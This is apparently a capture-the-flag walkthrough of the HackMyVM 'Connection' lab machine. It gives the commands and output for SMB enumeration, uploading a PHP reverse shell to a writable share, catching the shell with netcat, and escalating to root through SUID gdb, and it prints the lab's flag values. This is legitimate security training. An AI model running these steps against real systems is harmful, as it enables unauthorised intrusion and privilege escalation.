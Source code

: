 ```yaml
---
title: "Connection - HackMyVM Walkthrough"
---
```

nmap service scan:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/connection]
└─$ nmap -p- -sV 192.168.56.250
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 20:01 EDT
Nmap scan report for 192.168.56.250
Host is up (0.00060s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: CONNECTION; OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}
gobuster and dirb didn't enumerate any hidden files or directories. Moving on the the
SMB server. 

smbmap results: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/connection]
└─$ smbmap -H 192.168.56.250  
[+] IP: 192.168.56.250:445	Name: 192.168.56.250                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	share                                             	READ ONLY	
	print$                                            	NO ACCESS	Printer Drivers
	IPC$
{% endhighlight %}
smbclient anonymous connection: 

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/vulny]
└─$ smbclient //192.168.56.250/share
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 22 21:48:39 2020
  ..                                  D        0  Tue Sep 22 21:48:39 2020
  html                                D        0  Tue Sep 22 22:20:00 2020

		7158264 blocks of size 1024. 5206628 blocks available
smb: \>
{% endhighlight %}
in the `html` directory is the default index page for the apache installation. 

I attempted the method used in this article without success: https://medium.com/@nmappn/exploiting-smb-samba-without-metasploit-series-1-b34291bbfd63 

smbmap output led me astray in thinking that we can't write to the file system. It
turns out that we can. Lesson learned: don't blindly trust the tools, test things 
out manually as well. 

Uploading reverse shell: 

{% highlight terminal %}
smb: \html\> put reverse-shell.php 
putting file reverse-shell.php as \html\reverse-shell.php (1072.8 kb/s) (average 1072.9 kb/s)
smb: \html\> ls
  .                                   D        0  Sat Oct 30 15:30:28 2021
  ..                                  D        0  Tue Sep 22 21:48:39 2020
  index.html                          N    10701  Tue Sep 22 21:48:45 2020
  reverse-shell.php                   A     5493  Sat Oct 30 15:30:28 2021
  test.txt                            A        0  Sat Oct 16 21:26:19 2021

smb: \html\>

{% endhighlight %}
Setting up for a reverse connection and catching the connection:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/connection]
└─$ nc -nlvp 6666            
listening on [any] 6666 ...
connect to [192.168.56.224] from (UNKNOWN) [192.168.56.250] 37396
Linux connection 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
 15:49:46 up 34 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}

Getting a better shell with python after checking the installed version: 

{% highlight terminal %}
$ python -c 'import pty; pty.spawn("/bin/bash");'
www-data@connection:/home/connection$ 
{% endhighlight %}

Getting the user flag:

{% highlight terminal %}
www-data@connection:/home/connection$ cat local.txt
cat local.txt
3f491443a2a6aa82bc86a3cda8c39617
{% endhighlight %}

Checking the SUID binaries:
{% highlight terminal %}
www-data@connection:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/gpasswd
{% endhighlight %}

gdb stands out from this list. Let's check out gtfobins for a viable way of getting a SUID shell with this binary. From gtfobins: 
>If the binary has the SUID bit set, it does not drop the elevated privileges and 
>may be abused to access the file system, escalate or maintain privileged access as
>a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like 
>Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

Attempting to get an elevated privilege shell on the machine using the example:
{% highlight terminal %}
www-data@connection:/$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh")' -ex quit
{% endhighlight %}

That seemed to work, so let's check who we are. We're still www-data user, because we excluded the option `-p` in the parameters of the python code. 

{% highlight terminal %}
www-data@connection:/$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
{% endhighlight %}

Getting the root flag: 
{% highlight terminal %}
# whoami
whoami
root
# cd root
cd root
# ls
ls
proof.txt
# cat proof.txt
cat proof.txt
a7c6ea4931ab86fb54c5400204474a39
{% endhighlight %}

I submitted both flags to HackMyVM and got the points. Hooray for points. 
